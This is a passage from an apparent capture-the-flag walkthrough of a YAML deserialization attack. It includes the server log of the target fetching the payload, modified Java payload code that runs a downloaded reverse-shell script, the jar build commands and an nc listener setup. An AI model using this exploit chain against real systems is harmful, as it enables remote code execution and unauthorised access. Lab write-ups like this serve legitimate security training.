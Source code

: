The deserilization seems to work and we get a hit on our server for our `shell` file right after the hit for the `yaml-payload.jar`.

```
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /shell HTTP/1.1" 200 -
```

With our reverse shell code being on the target we only have to execute it in a second step. We do this by simply calling `bash` on the file we downloaded earlier. First we modify the source code again.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("bash /tmp/revsh.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...[snip]...
```

Recompile ...

```
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1478) (out= 389)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1605) (out= 666)(deflated 58%)
```

Set up a listener this time on the specified port to catch our reverse shell and also set up our webserver again to serve the payload.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
